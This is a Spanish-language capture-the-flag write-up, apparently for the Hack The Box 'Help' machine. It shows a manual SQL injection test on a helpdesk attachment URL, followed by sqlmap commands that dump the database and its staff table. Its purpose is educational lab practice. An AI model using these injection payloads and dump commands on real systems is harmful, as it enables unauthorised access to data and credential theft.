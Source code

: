 ![image](https://github.com/user-attachments/assets/12935b76-4ed9-4e9e-99c0-80d122047f45)


Probamos estas credenciales en el panel de login anterior  y logramos acceder:

![image](https://github.com/user-attachments/assets/3f67585f-8b23-4754-84f9-65864daf2ae2)


Anteriormente cuando enumeramos la versión de este software vimos que podía ser vulnerable a Arbitrary File Upload y Authenticated SQLi.

![image](https://github.com/user-attachments/assets/1572a035-7e64-4953-bc62-550808641e52)



```
searchsploit -m php/webapps/41200.py
```

El exploit no me funcionó con esta máquina, pero tras revisar  el contenido pude entender lo que hacía para intentar realizar la explotación de forma manual.

Lo primero que se requiere es crear un ticket adjuntando un archivo:

![image](https://github.com/user-attachments/assets/034f5bce-e25f-4589-92e8-19b6e18c72b0)



A continuación, copiamos la url del adjunto en el navegador e interceptamos la petición con burp:
```
http://help.htb/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7
```

Probamos añadiendo una inyección muy sencilla y confirmamos la vulnerabilidad:

```
and 1=1-- - 
```
![image](https://github.com/user-attachments/assets/a9459036-ec8e-4819-913c-fe565d48fe5f)


Enviando esto resulta en una condición verdadera que devuelve la imagen pero cambiándolo a 1=2 no lo hace porque se evalúa a falso. Esto confirma la vulnerabilidad SQLi.

Podemos automatizar la inyección con sqlmap:

```
sqlmap -r req  -p param[] --level 5 --risk 3 --threads 10 --dump --batch
```

Hay bastantes tablas por lo que una vez localizamos la que nos interesa lanzamos de nuevo sqlmap indicando la misma para hacer un dump:

```
sqlmap -r req -D support -T staff --threads 10 --dump --batch
```

![image](https://github.com/user-attachments/assets/1576dddd-e7ff-4cca-ad49-45d9e991a813)

